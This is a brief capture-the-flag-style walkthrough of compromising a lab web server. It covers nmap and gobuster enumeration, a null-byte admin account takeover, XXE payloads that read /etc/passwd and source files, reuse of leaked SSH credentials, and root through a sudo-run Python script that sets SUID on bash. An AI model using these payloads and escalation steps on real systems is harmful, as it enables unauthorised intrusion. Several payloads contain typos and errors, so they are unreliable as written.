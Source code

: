 Started a nmap scan
```
22 OpenSSH 6.6.1p1
80 Apache 2.4.7
```
Started with a gobuster scan `2.3-medmium` doing a scan in the scripts
```
/scripts/
/scripts/ie/
/report
/admin.php
/register.php
/acc.php #onyl for admins
/fourms.php # only for admins
```
If you go to the webserver and go to report there is a binary file ELF there is a list of emails in the program and a guest account `guest:guest` I found a `admin.php` file with a login forum maybe we can take that list of emails could not crack any but we can also just make are own account we can make account with null bytes `%00` at the end of the admin account with email and now we can login as admin tested `acc.php` for sql injection no matter what I input says RCE detected on the `fourms.php` page we can get xxe injection and to read the passwd file
`<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd>" ]>`
Now that we can read the passwd file lets see if we can read other files on the webhost like `acc.php` use this payload we can do so
`<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file://filter/convert.base64-encode/resource=acc.php" ]>`
and when read this file there is some creds hidden in the file
`cyber:super#se......` 
and this can be used to login into the SSH account when we run `sudo -l` we have permission to run `run.py` but we can just rename the file and make are own with this code in it
```
imoport os
os.system('chmod 4777 /bin/bash')
```
and then run the file with sudo and then this command `/bin/bash -p` and were now root